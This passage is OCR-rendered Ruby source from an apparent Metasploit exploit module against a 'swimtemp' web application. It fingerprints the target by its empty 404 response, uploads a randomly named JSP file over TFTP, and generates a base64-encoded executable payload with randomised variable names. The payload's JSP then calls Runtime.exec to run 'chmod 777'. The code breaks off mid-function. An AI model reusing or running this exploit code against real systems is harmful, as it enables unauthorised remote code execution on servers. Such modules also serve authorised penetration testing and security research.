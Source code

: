 ```ruby
      'DefaultOptions' => { 'WfsDelay' => 10 },
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'TODO'
    ))
    register_options(
      [
        OptPort.new('RPORT', [true, 'The target port', 443]),
        OptPort.new('RPORT_TFTP', [true, 'TFTPD port', 69]),
        OptBool.new('SSL', [true, 'Use SSL connection', true]),
        OptString.new('TARGETURI', [ true,  "swimtemp path", '/swimtemp'])
      ])
  end
  def check
    res = send_request_cgi({
      'uri'    => normalize_uri(datastore['TARGETURI'], 'swimtemp'),
      'method' => 'GET'
    })
    if res && res.code == 404 && res.body.length == 0
      # at the moment this is the best way to detect
      # a 404 in swimtemp only returns the error code with a body length of 0,
      # while a 404 to another webapp or to the root returns code plus a body with content
      return Exploit::CheckCode::Detected
    else
      return Exploit::CheckCode::Unknown
    end
  end
  def upload_payload(payload)
    lport = datastore['LPORT'] || (1025 + rand(0xffff-1025))
    lhost = datastore['LHOST'] || "0.0.0.0"
    remote_file = rand_text_alpha(rand(14) + 5) + '.jsp'
    tftp_client = Rex::Proto::TFTP::Client.new(
      "LocalHost"  => lhost,
      "LocalPort"  => lport,
      "PeerHost"   => rhost,
      "PeerPort"   => datastore['RPORT_TFTP'],
      "LocalFile"  => "DATA:#{payload}",
      "RemoteFile" => remote_file,
      "Mode"       => 'octet',
      "Context"    => {'Msf' => self.framework, 'MsfExploit' => self},
      "Action"     => :upload
    )
    print_status "Uploading TFTP payload to #{rhost}:#{datastore['TFTP_PORT']} as '#{remote_file}'"
    tftp_client.send_write_request
    remote_file
  end
  def generate_jsp_payload
    exe = generate_payload_exe
    base64_exe = Rex::Text.encode_base64(exe)
    native_payload_name = rand_text_alpha(rand(6)+3)
    var_raw     = rand_text_alpha(rand(8) + 3)
    var_ostream = rand_text_alpha(rand(8) + 3)
    var_pstream = rand_text_alpha(rand(8) + 3)
    var_buf     = rand_text_alpha(rand(8) + 3)
    var_decoder = rand_text_alpha(rand(8) + 3)
    var_tmp     = rand_text_alpha(rand(8) + 3)
    var_path    = rand_text_alpha(rand(8) + 3)
    var_tmp2     = rand_text_alpha(rand(8) + 3)
    var_path2    = rand_text_alpha(rand(8) + 3)
    var_proc2   = rand_text_alpha(rand(8) + 3)
    var_proc1 = Rex::Text.rand_text_alpha(rand(8) + 3)
    chmod = %Q|
    Process #{var_proc1} = Runtime.getRuntime().exec("chmod 777 " + #{var_path} + " " + #{var_path2});
```
